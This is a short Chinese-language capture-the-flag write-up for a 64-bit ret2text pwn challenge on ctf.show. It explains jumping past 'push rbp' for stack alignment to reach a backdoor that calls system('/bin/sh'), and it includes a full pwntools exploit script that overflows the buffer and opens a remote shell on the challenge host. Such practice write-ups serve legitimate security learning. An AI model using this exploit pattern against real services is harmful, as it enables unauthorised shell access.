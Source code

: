 64位的 system(“/bin/sh”) 后门函数给你

![image-20241101145816210](../_media/image-20241101145816210.png)

ida里面看

还是一样的函数

还是在backdoor

![image-20241101145951160](../_media/image-20241101145951160.png)



![image-20241101150010471](../_media/image-20241101150010471.png)



==需要注意的是Ubuntu18.04及以上，是会有各堆栈平衡校验的，所以要跳过push rbp，直接返回函数跳到call system的地方去==

直接写exp即可：

```python
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')

ip = "pwn.challenge.ctf.show"
port = 28114

p = remote(ip,port)

payload = b'a'* ( 0x0A + 0x08 ) + p64(0x040065B)
p.recvuntil(b'Just easy ret2text&&64bit')

p.sendline(payload)

p.interactive()
```

